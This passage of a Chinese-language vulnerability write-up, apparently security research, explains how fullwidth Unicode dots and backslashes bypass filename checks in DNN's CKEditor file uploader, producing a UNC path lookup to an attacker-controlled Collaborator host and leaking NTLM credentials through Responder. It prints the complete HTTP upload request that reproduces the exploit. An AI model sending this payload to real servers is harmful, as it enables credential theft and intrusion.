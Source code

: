 %EF%BC%8E  
解码为 Unicode 字符 U+FF0E  
：“全角句号”(．)  
- 它是普通句号的全角版本  
  
- 属于“半角及全角形式”Unicode 区块  
  
- 主要用于需要固定宽度字符的东亚排版中  
  
- 视觉上更大，在 CJK 文本中与全角字符占据相同宽度  
  
%EF%BC%BC  
解码为 Unicode 字符 U+FF3C  
：“全角反斜杠”(＼)  
- 它是普通反斜杠的全角版本  
  
- 同样属于“半角及全角形式”Unicode 区块  
  
- 用于需要统一字符宽度的亚洲排版场景  
  
- 视觉上比标准反斜杠更宽，但语义相同  
  
在利用此漏洞时，我们附加了调试器到 DNN，可以看到这个转换过程：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/hoiaQy7WhTCMFAvuzxuD4EpIaFFr2UmEWKzMuepv3AcLbVcwnVd1eugmsBm8VGVUAic4INncQibPOiarYmFtibmcF4Q/640?wx_fmt=other&from=appmsg "")  
  
上图显示 Unicode 字符绕过了所有先前的安全边界。  
  
最终，我们到达了漏洞利用点，其中文件名包含我们需要的标准化反斜杠和点号：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/hoiaQy7WhTCMFAvuzxuD4EpIaFFr2UmEWPngQiamLHZ6GpQHpKSWfs1LPSNzJdemHFHV7O1VzLEQ3lXOjaAz2DpQ/640?wx_fmt=other&from=appmsg "")  
  
这导致了预期的 Collaborator DNS 查询：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/hoiaQy7WhTCMFAvuzxuD4EpIaFFr2UmEWxoJuRbeic8FiccjqBgziaWK1Y1vuT8tAbKMnCRF3jovvY4NVibJAUA7mpQ/640?wx_fmt=other&from=appmsg "")  
  
使用 Responder 服务器，NTLM 凭据可以像这样泄露：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/hoiaQy7WhTCMFAvuzxuD4EpIaFFr2UmEWrly152vZTRtoApDkUhgwDicZpVicgbzPcUiaRVOgoAAusGOFiasHCQo5Ow/640?wx_fmt=other&from=appmsg "")  
  
重现此问题所需的最终请求如下（注意：URL 解码文件名，并在发送请求前替换 Burp Collaborator 主机）：  
```
POST /Providers/HtmlEditorProviders/DNNConnect.CKE/Browser/FileUploader.ashx?PortalID=0&storageFolderID=1&overrideFiles=false HTTP/1.1
Host: target
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXXXXXXXXXXXX
Content-Length: 198

------WebKitFormBoundaryXXXXXXXXXXXX
Content-Disposition: form-data; name="file"; filename="%EF%BC%BC%EF%BC%BCoqi3o3fv9cpyquhbd6h8bx19a0gs4nsc%EF%BC%8Eoastify%EF%BC%8Ecom%EF%BC%BC%EF%BC%BCc$%EF%BC%BC%EF%BC%BCan.jpg"
Content-Type: image/jpeg

test
------WebKitFormBoundaryXXXXXXXXXXXX--
```  
### 漏洞变体分析  
  